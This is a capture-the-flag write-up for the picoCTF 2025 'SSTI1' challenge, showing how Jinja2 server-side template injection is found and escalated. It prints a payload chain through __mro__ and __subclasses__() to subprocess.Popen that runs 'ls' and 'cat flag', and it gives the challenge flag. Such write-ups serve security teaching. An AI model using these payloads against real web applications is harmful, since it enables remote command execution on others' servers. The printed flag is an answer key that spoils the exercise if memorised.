

# :briefcase: SSTI1

- **Difficultly**: `Easy`
- **Category**: `Web Exploitation`
- **Platform**: `picoCTF 2025`
- **Tag**: `browser_webshell_solvable`
- **Author**: `Venax`
- **Date**: `18/05/2025

---

# :pencil: Description

I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!

---

# :hammer_and_wrench: Solution

1. Access the link

    

2. Try enter some announce `>` We have this

    ![image2]{images/image2.png)

3. Back to previous page `>` We will try enter the following characters in turn `${{<%[%'"}}%` until we get an error `>` We have this after enter `${{`

    

4. Now we will continue entering `${{7\*7}}` and `${{7\*'7'}}` `>` We have this

    
    

    This proves that we can use Jinja2 to do it.

5. Enter the following segments one by one to find what we need.

    `{{''.__class__}}`

    

    `{{''.__class__.__mro__}}`

    

    `{{''.__class__.__mro__[1]}}`
    
    

    `{{''.__class__.__mro__[1].__subclasses__()}}`

    

    Now we need to find the location of the class `subprocess.Popen` `>` Save all classes into a file `>` Use the following commands.

   `tr \, \\n < classes.txt > classes2.txt`

    `awk '{print NR $s}' classes2.txt | grep 'subprocess.Popen'`
    
    

    `{{''.__class__.__mro__[1].__subclasses__()[356]}}`

    *Note: We input 356 because __subclasses__() returns an array, and the awk command counts from 1*

    

    `{{''.__class__.__mro__[1].__subclasses__()[356]("ls", shell=True, stdout=-1).communicate()}}`

    

    `{{''.__class__.__mro__[1].__subclasses__()[356]("cat flag", shell=True, stdout=-1).communicate()}}`

    

---

# :white_flag: Flag

> picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}

---

# :writing_hand: Notes

1. `__subclasses__()` is a built-in method of `object` that lists all its direct and indirect subclasses.
2. `__mro__` is a tuple that shows the method resolution order of a class.
3. `subprocess` in Python allows executing system commands.

---

# :books: Resources

1. [TryHackMe | SSTI](https://tryhackme.com/room/learnssti)
2. [subprocess — Subprocess management &#8212; Python 3.13.3 documentation](https://docs.python.org/3/library/subprocess.html)

